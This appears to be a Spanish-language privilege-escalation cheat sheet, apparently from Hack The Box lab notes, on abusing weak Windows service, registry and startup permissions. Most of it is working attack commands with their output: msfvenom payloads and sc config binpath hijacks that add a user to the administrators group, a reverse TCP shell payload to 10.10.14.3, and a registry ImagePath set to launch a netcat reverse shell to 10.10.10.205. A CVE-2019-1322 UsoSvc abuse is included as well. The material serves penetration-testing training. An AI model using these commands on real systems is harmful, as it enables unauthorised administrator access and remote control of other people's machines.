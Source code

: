 
# Escalada de privilegios en Windows – Permisos débiles

Este documento resume las técnicas relacionadas con permisos débiles en Windows que pueden ser explotadas para obtener privilegios elevados. Se incluyen herramientas, comandos y ejemplos prácticos de explotación.

---

## 1. Permisos ACL débiles en binarios de servicios

Servicios instalados con permisos incorrectos permiten a cualquier usuario modificar sus binarios.

### Herramienta:
- [SharpUp (GhostPack)](https://github.com/GhostPack/SharpUp/)

### Ejemplo de explotación:

```powershell
PS C:\htb> .\SharpUp.exe audit
```

Salida:

```
=== Modifiable Service Binaries ===
Name        : SecurityService
PathName    : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Verificamos con `icacls`:

```cmd
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Salida:

```
Everyone:(I)(F)
BUILTIN\Users:(I)(F)
```

Sustituimos el binario por uno malicioso (reverse shell, nuevo admin, etc.) y arrancamos el servicio:

`msfvenom -p windows/exec CMD='net localgroup administrators htb-student /add' -f exe -o SecurityService.exe`

```cmd
copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
sc start SecurityService
```

---

## 2. Permisos débiles en servicios (Service Permission Abuse)

Servicios mal configurados permiten a usuarios no privilegiados cambiar su configuración.

### Herramientas:
- [SharpUp](https://github.com/GhostPack/SharpUp/)
- [AccessChk (Sysinternals)](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

### Ejemplo de explotación:

```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```

Salida:

```
RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

Cambiamos la ruta del binario por un comando malicioso:

```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
sc stop WindscribeService
sc start WindscribeService
```

Verificamos si se añadió el usuario:

```cmd
net localgroup administrators
```

---

## 3. Rutas de servicio sin comillas (Unquoted Service Path)

Servicios que no usan comillas en la ruta de su binario permiten inyecciones si se puede escribir en directorios anteriores.

### Ejemplo de explotación:

Ruta vulnerable:

```
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```

Windows buscará ejecutables como:

```
C:\Program.exe
C:\Program Files\System.exe
```

Creamos `C:\Program.exe` con payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe -o "C:\Program.exe"
```

Y reiniciamos el sistema (si no podemos reiniciar el servicio).

---

## 4. Permisos débiles en el Registro (Registry ACLs)

Algunos servicios tienen claves del registro modificables por usuarios no administradores.

### Herramienta:
- [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

### Ejemplo de explotación:

```cmd
accesschk.exe /accepteula "usuario" -kvuqsw hklm\System\CurrentControlSet\services
```

Salida:

```
RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS
```

Modificamos `ImagePath` con PowerShell:

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

Luego arrancamos el servicio.

---

## 5. Programas en inicio automático modificables (Startup Programs)

Podemos abusar de entradas de inicio si tenemos permiso de escritura sobre la clave o el binario referenciado.

### Ejemplo:

```powershell
Get-CimInstance Win32_StartupCommand | select Name, Command, Location, User | fl
```

Si un programa apunta a una ruta donde podemos escribir, podemos sustituirlo por un payload, y el próximo inicio de sesión del usuario lanzará nuestro binario malicioso.

---

## 6. Vulnerabilidad CVE-2019-1322

Antes del parche de seguridad, era posible modificar `UsoSvc` (Windows Update Orchestrator Service), que corre como SYSTEM.

- [CVE-2019-1322 – Detalles](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322)

### Ejemplo (antes del parche):

```cmd
sc config UsoSvc binpath= "cmd /c net localgroup administrators user /add"
sc stop UsoSvc
sc start UsoSvc
```

---

## Limpieza

Para revertir cambios en servicios:

```cmd
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
sc start WindScribeService
```

---

Este resumen te permite reconocer y explotar debilidades comunes en permisos del sistema Windows relacionadas con servicios y el registro.
